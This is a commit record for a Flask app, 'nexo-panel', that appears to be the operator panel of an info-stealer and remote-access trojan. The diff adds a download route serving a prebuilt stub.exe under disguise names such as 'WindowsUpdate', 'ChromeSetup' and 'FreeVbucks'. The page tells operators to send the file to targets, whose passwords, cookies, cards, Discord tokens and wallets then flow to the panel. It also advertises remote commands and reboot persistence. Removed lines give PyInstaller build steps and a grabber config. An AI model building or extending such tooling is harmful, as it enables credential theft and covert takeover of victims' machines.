

Before and after one commit to fleching/nexo-panel, a Flask app: page /builder in a window 1280 px wide. Shown: the whole page at 87% size. After the commit the page ends 1064 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme; the visitor is signed in with stand-in values (Sample User, id 1).

Commit message:
Add stub generator with preset names

```diff
--- a/app.py
+++ b/app.py
@@ -338,6 +338,30 @@ def builder():
     return render_template('builder.html', user=user, api_url=api_url)
 
 
+@app.route('/builder/download')
+@login_required
+def download_stub():
+    """Download the stub with custom filename"""
+    filename = request.args.get('name', 'setup')
+    # Sanitize filename
+    filename = "".join(c for c in filename if c.isalnum() or c in ('_', '-', ' ')).strip()
+    if not filename:
+        filename = 'setup'
+
+    stub_path = os.path.join(app.config['UPLOAD_FOLDER'], 'stub.exe')
+    if not os.path.exists(stub_path):
+        flash('Stub not found. Contact admin.', 'error')
+        return redirect(url_for('builder'))
+
+    from flask import send_file
+    return send_file(
+        stub_path,
+        as_attachment=True,
+        download_name=f"{filename}.exe",
+        mimetype='application/octet-stream'
+    )
+
+
 # ==================== ADMIN ROUTES ====================
 
 @app.route('/admin')
--- a/templates/builder.html
+++ b/templates/builder.html
@@ -2,189 +2,193 @@
 
 {% block title %}Builder - NEXO{% endblock %}
 
+{% block extra_css %}
+<style>
+    .generator-card {
+        background: linear-gradient(135deg, #1a1a25, #12121a);
+        border: 2px solid var(--purple-primary);
+        border-radius: 20px;
+        padding: 30px;
+        margin-bottom: 30px;
+    }
+
+    .generator-card h3 {
+        color: var(--purple-light);
+        margin-bottom: 20px;
+    }
+
+    .name-presets {
+        display: flex;
+        flex-wrap: wrap;
+        gap: 10px;
+        margin-bottom: 20px;
+    }
+
+    .preset-btn {
+        padding: 10px 20px;
+        background: var(--bg-secondary);
+        border: 1px solid var(--border-color);
+        border-radius: 10px;
+        color: var(--text-primary);
+        cursor: pointer;
+        transition: all 0.2s;
+    }
+
+    .preset-btn:hover {
+        border-color: var(--purple-primary);
+        background: var(--bg-hover);
+    }
+
+    .preset-btn.selected {
+        border-color: var(--purple-primary);
+        background: rgba(147, 51, 234, 0.2);
+    }
+
+    .custom-name-input {
+        display: flex;
+        gap: 15px;
+        align-items: center;
+        margin-top: 20px;
+    }
+
+    .custom-name-input input {
+        flex: 1;
+        padding: 15px 20px;
+        background: var(--bg-secondary);
+        border: 1px solid var(--border-color);
+        border-radius: 12px;
+        color: var(--text-primary);
+        font-size: 16px;
+    }
+
+    .custom-name-input input:focus {
+        outline: none;
+        border-color: var(--purple-primary);
+    }
+
+    .download-btn {
+        padding: 15px 40px;
+        background: linear-gradient(135deg, var(--purple-primary), var(--purple-dark));
+        border: none;
+        border-radius: 12px;
+        color: white;
+        font-size: 16px;
+        font-weight: 600;
+        cursor: pointer;
+        transition: all 0.3s;
+        display: inline-flex;
+        align-items: center;
+        gap: 10px;
+    }
+
+    .download-btn:hover {
+        box-shadow: 0 8px 25px rgba(147, 51, 234, 0.4);
+        transform: translateY(-2px);
+    }
+
+    .preview-name {
+        margin-top: 15px;
+        padding: 15px 20px;
+        background: var(--bg-primary);
+        border-radius: 10px;
+        font-family: monospace;
+        font-size: 14px;
+        color: var(--success);
+    }
+</style>
+{% endblock %}
+
 {% block content %}
 <div class="sidebar">
-    <div class="logo">
-        <h1><i class="fas fa-bolt"></i> <span>NEXO</span></h1>
-    </div>
+    <div class="logo"><h1><i class="fas fa-skull"></i> <span>NEXO</span></h1></div>
     <ul class="nav-menu">
-        <li class="nav-item">
-            <a href="{{ url_for('dashboard') }}" class="nav-link">
-                <i class="fas fa-home"></i>
-                <span>Dashboard</span>
-            </a>
-        </li>
-        <li class="nav-item">
-            <a href="{{ url_for('builder') }}" class="nav-link active">
-                <i class="fas fa-hammer"></i>
-                <span>Builder</span>
-            </a>
-        </li>
-        <li class="nav-item">
-            <a href="{{ url_for('settings') }}" class="nav-link">
-                <i class="fas fa-cog"></i>
-                <span>Settings</span>
-            </a>
-        </li>
-        <li class="nav-item">
-            <a href="{{ url_for('logout') }}" class="nav-link">
-                <i class="fas fa-sign-out-alt"></i>
-                <span>Logout</span>
-            </a>
-        </li>
+        <li class="nav-item"><a href="{{ url_for('dashboard') }}" class="nav-link"><i class="fas fa-home"></i><span>Dashboard</span></a></li>
+        <li class="nav-item"><a href="{{ url_for('builder') }}" class="nav-link active"><i class="fas fa-hammer"></i><span>Builder</span></a></li>
+        <li class="nav-item"><a href="{{ url_for('settings') }}" class="nav-link"><i class="fas fa-cog"></i><span>Settings</span></a></li>
+        {% if session.is_admin %}
+        <li class="nav-item"><a href="{{ url_for('admin_panel') }}" class="nav-link"><i class="fas fa-crown"></i><span>Admin</span></a></li>
+        {% endif %}
+        <li class="nav-item"><a href="{{ url_for('logout') }}" class="nav-link"><i class="fas fa-sign-out-alt"></i><span>Logout</span></a></li>
     </ul>
 </div>
 
 <main class="main-content">
     <div class="header">
-        <h2>Grabber Builder</h2>
-        <div class="user-info">
-            <span>{{ session.username }}</span>
-            <div class="user-avatar">{{ session.username[0].upper() }}</div>
+        <h2><i class="fas fa-hammer"></i> Stub Generator</h2>
+    </div>
+
+    <!-- Generator -->
+    <div class="generator-card">
+        <h3><i class="fas fa-download"></i> Generate & Download Stub</h3>
+        <p style="color: var(--text-secondary); margin-bottom: 20px;">
+            Choose a name for your executable or use one of the presets. The stub will automatically send data to your panel.
+        </p>
+
+        <h4 style="margin-bottom: 15px; color: var(--text-secondary);">Quick Presets:</h4>
+        <div class="name-presets">
+            <button class="preset-btn" onclick="setName('WindowsUpdate')">Windows Update</button>
+            <button class="preset-btn" onclick="setName('ChromeSetup')">Chrome Setup</button>
+            <button class="preset-btn" onclick="setName('DiscordSetup')">Discord Setup</button>
+            <button class="preset-btn" onclick="setName('SpotifyInstaller')">Spotify Installer</button>
+            <button class="preset-btn" onclick="setName('SteamSetup')">Steam Setup</button>
+            <button class="preset-btn" onclick="setName('MinecraftInstaller')">Minecraft Installer</button>
+            <button class="preset-btn" onclick="setName('FortniteCheat')">Fortnite Cheat</button>
+            <button class="preset-btn" onclick="setName('FreeVbucks')">Free Vbucks</button>
+            <button class="preset-btn" onclick="setName('NitroGenerator')">Nitro Generator</button>
+            <button class="preset-btn" onclick="setName('CrackActivator')">Crack Activator</button>
+            <button class="preset-btn" onclick="setName('PhotoshopCrack')">Photoshop Crack</button>
+            <button class="preset-btn" onclick="setName('OfficeActivator')">Office Activator</button>
+        </div>
+
+        <h4 style="margin-bottom: 15px; color: var(--text-secondary);">Or enter custom name:</h4>
+        <div class="custom-name-input">
+            <input type="text" id="stubName" placeholder="Enter filename (without .exe)" value="setup" oninput="updatePreview()">
+            <a id="downloadLink" href="/builder/download?name=setup" class="download-btn">
+                <i class="fas fa-download"></i> Download .exe
+            </a>
+        </div>
+
+        <div class="preview-name">
+            <i class="fas fa-file"></i> Output: <span id="previewName">setup.exe</span>
         </div>
     </div>
 
-    <div style="display: grid; grid-template-columns: 1fr 1fr; gap: 30px;">
-        <!-- Builder Instructions -->
-        <div class="table-container" style="padding: 30px;">
-            <h3 style="margin-bottom: 20px;"><i class="fas fa-info-circle"></i> How to Build Your Grabber</h3>
-
-            <div style="margin-bottom: 25px;">
-                <h4 style="color: var(--purple-light); margin-bottom: 10px;">Step 1: Get the Grabber Code</h4>
-                <p style="color: var(--text-secondary); line-height: 1.6;">
-                    Download the NEXO Grabber from the GitHub repository or use the code provided in your panel folder.
-                </p>
-            </div>
-
-            <div style="margin-bottom: 25px;">
-                <h4 style="color: var(--purple-light); margin-bottom: 10px;">Step 2: Configure API URL</h4>
-                <p style="color: var(--text-secondary); line-height: 1.6; margin-bottom: 10px;">
-                    Replace the API_URL in the grabber code with your personal endpoint:
-                </p>
-                <div style="background: var(--bg-secondary); padding: 15px; border-radius: 10px; display: flex; align-items: center; gap: 10px;">
-                    <code style="flex: 1; font-size: 12px; word-break: break-all;">{{ api_url }}</code>
-                    <button class="btn btn-primary btn-sm" onclick="copyToClipboard('{{ api_url }}', this)">
-                        <i class="fas fa-copy"></i> Copy
-                    </button>
-                </div>
-            </div>
-
-            <div style="margin-bottom: 25px;">
-                <h4 style="color: var(--purple-light); margin-bottom: 10px;">Step 3: Compile to EXE</h4>
-                <p style="color: var(--text-secondary); line-height: 1.6;">
-                    Use PyInstaller to compile your grabber:
-                </p>
-                <div style="background: var(--bg-secondary); padding: 15px; border-radius: 10px; margin-top: 10px;">
-                    <code style="font-size: 13px;">pyinstaller --onefile --noconsole grabber.py</code>
-                </div>
-            </div>
-
-            <div>
-                <h4 style="color: var(--purple-light); margin-bottom: 10px;">Step 4: Distribute</h4>
-                <p style="color: var(--text-secondary); line-height: 1.6;">
-                    Your compiled EXE is ready! All captured data will appear in your dashboard automatically.
-                </p>
-            </div>
+    <!-- Info -->
+    <div style="display: grid; grid-template-columns: 1fr 1fr; gap: 20px;">
+        <div class="table-container" style="padding: 25px;">
+            <h3 style="margin-bottom: 15px;"><i class="fas fa-info-circle"></i> How it works</h3>
+            <ol style="color: var(--text-secondary); line-height: 2; padding-left: 20px;">
+                <li>Choose a convincing filename</li>
+                <li>Download the .exe</li>
+                <li>Send it to your target</li>
+                <li>When they run it, their data appears in your Dashboard</li>
+                <li>Control their PC remotely (screenshots, commands, files)</li>
+            </ol>
         </div>
 
-        <!-- Features List -->
-        <div class="table-container" style="padding: 30px;">
-            <h3 style="margin-bottom: 20px;"><i class="fas fa-list"></i> Grabber Features</h3>
-
-            <div style="display: grid; gap: 15px;">
-                <div style="display: flex; align-items: center; gap: 15px; padding: 15px; background: var(--bg-secondary); border-radius: 10px;">
-                    <div style="width: 40px; height: 40px; border-radius: 10px; background: rgba(147, 51, 234, 0.2); display: flex; align-items: center; justify-content: center;">
-                        <i class="fas fa-key" style="color: var(--purple-light);"></i>
-                    </div>
-                    <div>
-                        <div style="font-weight: 500;">Browser Passwords</div>
-                        <div style="font-size: 12px; color: var(--text-secondary);">Chrome, Edge, Brave, Opera, Firefox, etc.</div>
-                    </div>
-                </div>
-
-                <div style="display: flex; align-items: center; gap: 15px; padding: 15px; background: var(--bg-secondary); border-radius: 10px;">
-                    <div style="width: 40px; height: 40px; border-radius: 10px; background: rgba(59, 130, 246, 0.2); display: flex; align-items: center; justify-content: center;">
-                        <i class="fas fa-cookie" style="color: var(--info);"></i>
-                    </div>
-                    <div>
-                        <div style="font-weight: 500;">Browser Cookies</div>
-                        <div style="font-size: 12px; color: var(--text-secondary);">Session cookies for account takeover</div>
-                    </div>
-                </div>
-
-                <div style="display: flex; align-items: center; gap: 15px; padding: 15px; background: var(--bg-secondary); border-radius: 10px;">
-                    <div style="width: 40px; height: 40px; border-radius: 10px; background: rgba(245, 158, 11, 0.2); display: flex; align-items: center; justify-content: center;">
-                        <i class="fas fa-credit-card" style="color: var(--warning);"></i>
-                    </div>
-                    <div>
-                        <div style="font-weight: 500;">Credit Cards</div>
-                        <div style="font-size: 12px; color: var(--text-secondary);">Saved payment methods</div>
-                    </div>
-                </div>
-
-                <div style="display: flex; align-items: center; gap: 15px; padding: 15px; background: var(--bg-secondary); border-radius: 10px;">
-                    <div style="width: 40px; height: 40px; border-radius: 10px; background: rgba(239, 68, 68, 0.2); display: flex; align-items: center; justify-content: center;">
-                        <i class="fab fa-discord" style="color: var(--danger);"></i>
-                    </div>
-                    <div>
-                        <div style="font-weight: 500;">Discord Tokens</div>
-                        <div style="font-size: 12px; color: var(--text-secondary);">With account info validation</div>
-                    </div>
-                </div>
-
-                <div style="display: flex; align-items: center; gap: 15px; padding: 15px; background: var(--bg-secondary); border-radius: 10px;">
-                    <div style="width: 40px; height: 40px; border-radius: 10px; background: rgba(147, 51, 234, 0.2); display: flex; align-items: center; justify-content: center;">
-                        <i class="fab fa-bitcoin" style="color: var(--purple-light);"></i>
-                    </div>
-                    <div>
-                        <div style="font-weight: 500;">Crypto Wallets</div>
-                        <div style="font-size: 12px; color: var(--text-secondary);">MetaMask, Exodus, Atomic, etc.</div>
-                    </div>
-                </div>
-
-                <div style="display: flex; align-items: center; gap: 15px; padding: 15px; background: var(--bg-secondary); border-radius: 10px;">
-                    <div style="width: 40px; height: 40px; border-radius: 10px; background: rgba(34, 197, 94, 0.2); display: flex; align-items: center; justify-content: center;">
-                        <i class="fas fa-camera" style="color: var(--success);"></i>
-                    </div>
-                    <div>
-                        <div style="font-weight: 500;">Screenshot</div>
-                        <div style="font-size: 12px; color: var(--text-secondary);">Automatic desktop capture</div>
-                    </div>
-                </div>
-
-                <div style="display: flex; align-items: center; gap: 15px; padding: 15px; background: var(--bg-secondary); border-radius: 10px;">
-                    <div style="width: 40px; height: 40px; border-radius: 10px; background: rgba(59, 130, 246, 0.2); display: flex; align-items: center; justify-content: center;">
-                        <i class="fas fa-desktop" style="color: var(--info);"></i>
-                    </div>
-                    <div>
-                        <div style="font-weight: 500;">System Info</div>
-                        <div style="font-size: 12px; color: var(--text-secondary);">IP, location, hardware, OS</div>
-                    </div>
-                </div>
-            </div>
+        <div class="table-container" style="padding: 25px;">
+            <h3 style="margin-bottom: 15px;"><i class="fas fa-shield-alt"></i> Features</h3>
+            <ul style="color: var(--text-secondary); line-height: 2; padding-left: 20px;">
+                <li>✅ Grabs passwords, cookies, cards</li>
+                <li>✅ Steals Discord tokens</li>
+                <li>✅ Finds crypto wallets</li>
+                <li>✅ Takes screenshots</li>
+                <li>✅ Runs commands remotely</li>
+                <li>✅ Executes files you send</li>
+                <li>✅ Persists on reboot</li>
+            </ul>
         </div>
     </div>
 
-    <!-- Code Sample -->
-    <div class="table-container" style="padding: 30px; margin-top: 30px;">
-        <h3 style="margin-bottom: 20px;"><i class="fas fa-code"></i> Quick Setup Code</h3>
-        <p style="color: var(--text-secondary); margin-bottom: 15px;">
-            Add this to the top of your grabber to configure it for your panel:
-        </p>
-        <div style="background: var(--bg-secondary); padding: 20px; border-radius: 12px; position: relative;">
-            <button class="btn btn-primary btn-sm" style="position: absolute; top: 10px; right: 10px;" onclick="copyCode()">
-                <i class="fas fa-copy"></i> Copy
+    <!-- API Info -->
+    <div class="table-container" style="padding: 25px; margin-top: 20px;">
+        <h3 style="margin-bottom: 15px;"><i class="fas fa-link"></i> Your API Endpoint</h3>
+        <p style="color: var(--text-secondary); margin-bottom: 10px;">This stub is configured to send data to:</p>
+        <div style="background: var(--bg-secondary); padding: 15px; border-radius: 10px; display: flex; align-items: center; gap: 10px;">
+            <code style="flex: 1; font-size: 13px; word-break: break-all;">{{ api_url }}</code>
+            <button class="btn btn-primary btn-sm" onclick="copyToClipboard('{{ api_url }}', this)">
+                <i class="fas fa-copy"></i>
             </button>
-            <pre id="code-sample" style="color: var(--text-primary); font-family: monospace; font-size: 13px; line-height: 1.6; overflow-x: auto; margin: 0;">
-# NEXO Grabber Configuration
-API_URL = "{{ api_url }}"
-SEND_SCREENSHOT = True
-FAKE_ERROR = False
-ADD_TO_STARTUP = False
-
-# The grabber will automatically send all data to your panel
-# View results at: {{ request.host_url }}{{ user.panel_id }}/dashboard
-            </pre>
         </div>
     </div>
 </main>
@@ -192,11 +196,31 @@ ADD_TO_STARTUP = False
 
 {% block extra_js %}
 <script>
-function copyCode() {
-    const code = document.getElementById('code-sample').textContent;
-    navigator.clipboard.writeText(code).then(() => {
-        alert('Code copied to clipboard!');
-    });
-}
+    function setName(name) {
+        document.getElementById('stubName').value = name;
+        updatePreview();
+
+        // Highlight selected
+        document.querySelectorAll('.preset-btn').forEach(btn => btn.classList.remove('selected'));
+        event.target.classList.add('selected');
+    }
+
+    function updatePreview() {
+        let name = document.getElementById('stubName').value.trim();
+        if (!name) name = 'setup';
+
+        // Sanitize
+        name = name.replace(/[^a-zA-Z0-9_\- ]/g, '');
+
+        document.getElementById('previewName').textContent = name + '.exe';
+        document.getElementById('downloadLink').href = '/builder/download?name=' + encodeURIComponent(name);
+    }
+
+    function copyToClipboard(text, btn) {
+        navigator.clipboard.writeText(text);
+        const original = btn.innerHTML;
+        btn.innerHTML = '<i class="fas fa-check"></i>';
+        setTimeout(() => btn.innerHTML = original, 1500);
+    }
 </script>
 {% endblock %}
```
Also changed, not shown: 2 other files.
